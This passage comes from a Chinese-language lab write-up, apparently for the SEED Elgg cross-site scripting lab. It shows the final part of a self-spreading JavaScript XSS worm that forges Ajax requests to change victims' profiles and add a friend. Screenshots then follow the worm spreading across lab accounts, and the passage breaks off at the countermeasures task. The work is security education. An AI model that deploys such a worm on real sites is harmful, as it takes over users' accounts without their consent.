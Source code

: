 ```JavaScript
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
        
        //add friend:
        var friend="http://www.xsslabelgg.com/action/friends/add?friend="+samyGuid+ts+token;
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET",friend,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        Ajax.send();
        alert("Homo worm is injected! Your username is "+userName);
	}
}
</script>
```

我将这个部分加入到Samy的About me中，然后使用Boby的账号进行访问，可以看到蠕虫已经成功传播到Boby的账号：

![image](https://user-images.githubusercontent.com/64548919/206898730-4f0c25f9-9cc0-4bce-9eba-997072236049.png)

Boby自动添加了Samy，并且profile被修改。

![image](https://user-images.githubusercontent.com/64548919/206898496-da25fb3d-8786-4734-a6d4-992e4f419eea.png)

此时我刷新Boby的Profile，可以弹出相同的弹窗信息：

![image](https://user-images.githubusercontent.com/64548919/206898894-956db12b-9100-47b0-8fe8-8c15b0e35f8a.png)

我再用charlie的账号访问Boby，弹窗信息再次显示：


![image](https://user-images.githubusercontent.com/64548919/206898934-b98e7e00-ebd7-449f-b456-bf2a771ce503.png)

Charlie访问自己的主页，行为和Boby访问自己的主页是一样的，可以说明蠕虫已经传播成功：

![image](https://user-images.githubusercontent.com/64548919/206898996-1a77ecf1-205c-40df-88de-f04b4e21bd65.png)

![image](https://user-images.githubusercontent.com/64548919/206898946-6fb79263-cd50-4435-a210-cf9e8412566d.png)

### 3.8 Task 7: Countermeasures

#### 1 Activate only the HTMLawed countermeasure but not htmlspecialchars; visit any of the victim profiles and describe your observations in your report

登录管理员账号启动HTMLawed：
